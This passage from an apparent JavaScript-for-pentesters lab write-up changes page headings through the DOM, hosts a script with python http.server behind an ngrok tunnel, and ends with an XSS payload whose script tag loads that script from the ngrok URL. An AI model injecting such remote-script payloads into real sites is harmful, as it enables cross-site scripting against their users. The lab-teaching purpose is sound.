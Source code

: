 Perfect - now that we have it targeted, changing the text should be relatively straightforward. To do this we use the `innerText` attribute. With our developer tool console, submit the following command to change the text to whatever we want: `document.getElementsByTagName("h1")[0].innerText = "Hello friend"`. Once we hit the enter key to submit, the header text on the screen should change to "Hello friend". Now all that's left to do is change the `innerText` text to match what the prompt said. When everything is said and done, we end up with the following: `document.getElementsByTagName("h1")[0].innerText = "Found you!"`

One down, one to go - now we need to match the `<h2 class="form-signin-heading">Modify me!</h2>` element. For this piece of the challenge, notice that the `h2` has a `class` attached. Going through the source will reveal that this is the only element that has the class; that works for our purposes as an effective unique ID. This time, though, we'll use the JavaScript method `getElementByClassName`. It works in roughly a similar way as before, so let's skip directly to the payload: 

```javascript
document.getElementsByClassName("form-signin-heading")[0].innerText = "Modified you!"
```

We now have the way to change both pieces of text that the challenge asks us - add them to a `.js` file in any order (in this case, it won't matter which order). I'm storing mine in a file named `ch1.js`. JavaScript essentially runs all code as global code unless it's in a function, so no need for an explicit `main()` method - it will run the code sequentially as-is. The full script is below.

```javascript
document.getElementsByTagName("h1")[0].innerText = "Found you!"
document.getElementsByClassName("form-signin-heading")[0].innerText = "Modified you!"
```

Now that we have a working script, it's time to test it out. Since most of us aren't directly connecting to WAN, we can't just run `python3 -m http.server 80` and be on our way. This is where `ngrok` comes into play - the TL;DR is that it creates a TCP tunnel to a uniquely generated subdomain on `.ngrok.com` and then routes all traffic back to our local development server when a DNS request is made to that unique URI. Armed with that, let's fire up our `ngrok` server with `ngrok http 80`:

![Ngrok CLI display when running.](/assets/images/js-for-pentesters/c1/c1-ngrok.png)

Now that we have the ngrok tunnel set up, we can now host our local development server with `python3 -m http.server 80` (thought that was out of the picture, didn't you?). Now any request to our ngrok URL (in my case, `https://f0f0a8ca43c6.ngrok.io`) will redirect to my locally-accessible python http.server instance. This will let a target hit our `ch1.js` over WAN :) We'll change up our payload to a different one to fetch our custom script: `hello<script src="https://f0f0a8ca43c6.ngrok.io/ch1.js"></script>`. Once we submit the request, it will automatically re-write the page with the new headers!
